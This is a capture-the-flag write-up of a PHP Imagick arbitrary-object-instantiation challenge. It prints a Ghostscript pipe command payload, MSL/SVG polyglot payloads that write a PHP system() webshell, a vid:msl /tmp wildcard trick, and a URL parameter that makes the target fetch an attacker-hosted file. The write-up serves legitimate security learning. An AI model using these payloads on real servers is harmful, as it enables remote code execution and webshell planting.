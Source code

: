 # PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.


## The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".

![Landing page](Landing_page.png)

Uploading an image does not display your selected image, but it does open *an* image. 

![Upload page](upload_image.png)

Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

## File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
## But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

## LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.
![RCE success](upload_successful.png)

But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

## Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.

**(Mini challenge can you find the flag! go for it!).**

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.

![Dockerfile](Dockerfile.png)

Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
